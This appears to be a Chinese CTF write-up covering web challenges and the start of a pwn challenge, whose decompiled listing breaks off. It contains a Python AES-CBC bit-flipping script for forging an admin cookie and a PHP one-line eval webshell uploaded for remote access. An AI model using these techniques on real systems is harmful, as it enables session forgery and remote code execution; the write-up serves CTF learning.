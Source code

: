 # Rewind

## WEB

### checkin \| whocansee

分析源码得知cookie是用AES与CBC分组模式加密的，由于key未知不能直接用题给源码改明文后加密，故利用xor的性质写出解密脚本。

```python
from Crypto.Cipher import AES # 此处报错则检查是否安装Crypto库，是否把装好的Crypto文件夹名称首字母大写**
import binascii
import base64
import json
ciphertext = "originalcookie"
ciphertext = base64.b64decode(ciphertext)
ciphertext = list(ciphertext)
ciphertext[n] = ciphertext[n]^ ord('g') ^ ord('a')
ciphertext[n+1] = ciphertext[n+1]^ ord('u') ^ ord('d')
ciphertext[n+2] = ciphertext[n+2]^ ord('e') ^ ord('m')
ciphertext[n+3] = ciphertext[n+3]^ ord('s') ^ ord('i')
ciphertext[n+4] = ciphertext[n+4]^ ord('t') ^ ord('n')
print(base64.b64encode(bytes(ciphertext)))
```
n的值为想要修改的字符（此处是g,u,e,s,t）在明文字符串中的位置，这里是按照1开始计算的，比如g是第十一个，n就为11. 实际的操作是**修改后的字符** = **修改前的字符** 和 **它前一个修改前的字符**xor运算 再和 **它前一个修改后的字符**做xor运算。

### include \| whocansee

用BrupSuite抓包，给cookie进行base64解码，直接能看到明文，修改明文最后那个s:7:tourist为s:5:Lteam后再给编码回去，修改原cookie，获得上传权限，传个一句话木马上去   `<?php @eval($_POST['flag']);?>` 发现连路径都给了，于是直接拿Antsword连接，在根目录拿到flag。

## Pwn

### Gods \| Wings

64 位可执行文件, 没开 PIE, 其他保护都开了. `aaa; s main; pdg`:

```c
undefined8 main(void)
{
    int32_t iVar1;
    int64_t in_FS_OFFSET;
    char *s1;
    undefined2 var_ah;
    int64_t canary;
    
    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stderr, 0, 2, 0);
    s1 = (char *)0x0;
    var_ah = 0;
    do {
        sym.imp.puts("Do you know who is the God of XDSEC? (*^_^*)");
        sym.imp.__isoc99_scanf("%8s", &s1);
        iVar1 = sym.imp.strcmp(&s1, "yes");
        if (iVar1 == 0) {
            sym.imp.pthread_create(obj.pid, 0, sym.vuln, 0);
            iVar1 = sym.imp.pthread_join(_obj.pid, 0);
            if (iVar1 != 0) {
    // WARNING: Subroutine does not return
                sym.imp.exit(0);
            }
```